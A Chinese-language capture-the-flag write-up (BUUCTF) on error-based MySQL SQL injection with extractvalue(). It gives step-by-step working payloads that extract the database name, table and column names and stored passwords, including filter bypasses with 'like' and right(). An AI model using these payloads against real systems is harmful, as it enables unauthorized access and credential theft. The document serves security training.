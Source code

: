 

### extractvalue() 报错注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/6848e66a58cb8da5c842e442.jpg)

初次尝试万能密码登录成功，说明闭合为单引号

![](https://pic1.imgdb.cn/item/6848e79b58cb8da5c842f049.jpg)

`extractvalue()` 是 **MySQL 的 XML 函数**，用于从 XML 字符串中提取数据

```sql
# xml_fragment：一个合法的 XML 结构体（字符串格式）
# xpath_expression：XPath 表达式，用于从 XML 中定位并提取节点或属性值
EXTRACTVALUE(xml_fragment, xpath_expression)
```

第一个参数肯定会报错，所以我们将 `database()` 放在中间，这样就会执行显示出数据库名

可以再加上 `concat()` 函数将显示内容包裹起来，`0x7e` 即波浪号 `~`

```sql
1'^extractvalue(1,concat(0x7e,(select(database()))))#
```

![](https://pic1.imgdb.cn/item/68495faa58cb8da5c8450122.jpg)

接下来就是爆表，这里注意 `=` 被过滤了使用 `like` 代替

```sql
1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))))#
```

![](https://pic1.imgdb.cn/item/6849601f58cb8da5c84503d9.jpg)

接下来爆字段

```sql
1'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))))#
```

![](https://pic1.imgdb.cn/item/6849604658cb8da5c8450538.jpg)

查字段内容

```sql
1'^extractvalue(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1))))#
```

![](https://pic1.imgdb.cn/item/6849608258cb8da5c845079a.jpg)

使用 `right()` 突破字符限制

```sql
1'^extractvalue(1,right(concat(0x7e,(select(group_concat(password))from(H4rDsq1))),30))#
```

![](https://pic1.imgdb.cn/item/6849608e58cb8da5c8450840.jpg)